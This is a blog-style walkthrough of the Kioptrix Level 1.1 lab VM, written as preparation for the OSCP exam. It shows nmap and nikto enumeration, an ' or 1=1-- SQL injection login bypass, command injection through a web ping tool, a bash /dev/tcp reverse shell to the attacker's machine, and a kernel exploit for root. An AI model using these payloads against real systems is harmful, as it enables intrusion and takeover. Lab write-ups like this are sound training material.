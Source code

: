 ```yaml
---
title: "Kioptrix Level 1.1 (#2)"
date: 2017-02-25 12:52:16 +0000
comments: true
categories: challenges
tags: challenges
published: false
---
```


So im adding all the writeups I did leading up to OSCP following on with Kioptrix level 2.

**Name:** Kioptrix: Level 1.1 (#2)

**Date release:** 11 Feb 2011

**Author:** Kioptrix

**Series:** Kioptrix

**Web page:**[http://www.kioptrix.com/blog/?page_id=135 ](http://www.kioptrix.com/blog/?page_id=135)

**Vulnhub:** [https://www.vulnhub.com/entry/kioptrix-level-11-2,23/](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

**Description:**

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
This is the second release of #2. First release had a bug in it with the web application



<!-- more -->

## Host Discovery

`arp-scan -l`

## Port Scanning

### TCP

`nmap -F -sS 192.168.0.18`

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/1.png)

I also ran a more indepth scan 

`nmap -sS -A -sC -p0- -oA nmap_tcp_full_sCA_192.168.0.18 192.168.0.18`

### UDP

I decided to use nmap to run a scan of full UDP ports playing with the timing switches

`nmap --min-parallelism 100 --min-rtt-timeout 26ms --max-rtt-timeout 160ms --max-retries 2 --max-scan-delay 0 --min-rate 1000 -p0- -sU -oA nmap_udp_full 192.168.0.18`


```bash
PORT    STATE SERVICE
111/udp open  rpcbind
```

## Service Enumeration

### 80 - http

### 443 - https

http://192.168.0.18/ - a login page

`nikto -h 192.168.0.18`

```bash
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.!
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/assets/images/: Directory indexing found.![]
+  /icons/README: Apache default file found.![]
+ Server: Apache/2.0.52 (CentOS)
```

### 3306 - mysql

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/2.png)

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/3.png)

## Exploitation

So it looks like we need to try and get past the login page.

At this point i decided to start fuzzing the login page to try and find an injection flaw. I was able to successfully login using the value below in the username and password fields.

`' or 1=1--`

Using SQL injection to supply a truestatement in the username and password fields logged us in sucessfully :D

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/4.png)

We get a simple web based ping tool

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/5.png)

The ping tool works 

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/6.png)

It seems like the OS ping command is being used to carry out this task. 

Looks like we can abuse this feild to get code execution.

`127.0.0.1; whoami` 

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/7.png)

Lets try get a shell :P

netcat listener is setup on the attacking kali machine (192.168.0.21).

`nc -nlvp 4444`

Now we inject our payload

`127.0.0.1; bash -i >& /dev/tcp/192.168.0.21/4444 0>&1`

Boom! we get a shell but its as a low privileged user apache

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/8.png)

## Privilege Esculation

we are in but its not good enoughh want root!

using g0m1lks privilege escalation guide we start to look for a way to escalate


[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/9.png)

I noticed the target is running a vulnerable Linux kernel

**searchsploit** was used to find a priv esc exploit

**Exploit Used:** [https://www.exploit-db.com/exploits/9542/](https://www.exploit-db.com/exploits/9542/)

The exploit was downloaded and transferred over to the target using wget

compiled using gcc on the target

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/10.png)

Time to execute

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/11.png)

got root :P